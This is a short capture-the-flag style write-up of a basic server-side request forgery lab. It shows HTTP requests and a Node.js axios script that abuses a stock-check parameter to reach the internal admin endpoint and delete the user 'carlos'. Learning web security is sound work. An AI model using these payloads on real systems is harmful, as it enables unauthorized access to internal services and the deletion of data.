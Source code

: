 # 1 - Basic SSRF Against localhost

### Notes

The "Check stock" feature sends a POST request to /product/stock with the full URL of the endpoint the application uses to check the stock:

```http
POST /product/stock HTTP/1.1

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```

A normal response contains the number of items in stock in the body:

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

767
```

The path of the admin interface can be found in the HTML. Calling it directly reveals an authenticated view of the admin panel, from which we see the endpoint to delete the user carlos is `/admin/delete?username=carlos`.

```http
POST /product/stock HTTP/1.1

stockApi=http://localhost/admin/delete?username=carlos
```

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  // Delete user 'carlos'
  await axios.post(
    `${labUrl}/product/stock`,
    `stockApi=http://localhost/admin/delete?username=carlos`
  )
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
// Some code
```
